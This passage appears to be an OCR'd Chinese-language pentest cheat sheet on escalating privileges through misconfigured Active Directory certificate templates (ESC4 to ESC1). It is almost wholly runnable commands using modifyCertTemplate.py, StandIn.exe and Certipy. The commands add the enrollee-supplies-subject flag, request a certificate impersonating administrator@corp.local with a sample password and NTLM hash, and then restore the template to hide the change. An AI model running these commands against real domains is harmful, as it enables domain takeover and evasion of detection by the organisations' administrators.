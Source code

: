 	为允许域身份验证的模板启用mspki-certificate-name-flag标志，允许攻击者“将错误配置推送到导致 ESC1 漏洞的模板”
	使用modifyCertTemplate搜索WriteProperty值00000000-0000-0000-0000-000000000000
	https://github.com/fortalice/modifyCertTemplate
	>python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -get-acl
	添加ENROLLEE_SUPPLIES_SUBJECT（ESS）标志以执行ESC1
	>python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -add enrollee_supplies_subject -property mspki-Certificate-Name-Flag

	C:\>StandIn.exe --adcs --filter WebServer --ess --add
	执行ESC1然后恢复值
	>python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -value 0 -property mspki-Certificate-Name-Flag
	使用证书
	覆盖配置使其易受 ESC1 攻击
	certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -save-old
	根据 ESC4 模板请求证书，就像 ESC1 一样
	certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC4' -alt 'administrator@corp.local'
	恢复旧配置
	certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -configuration ESC4.json
	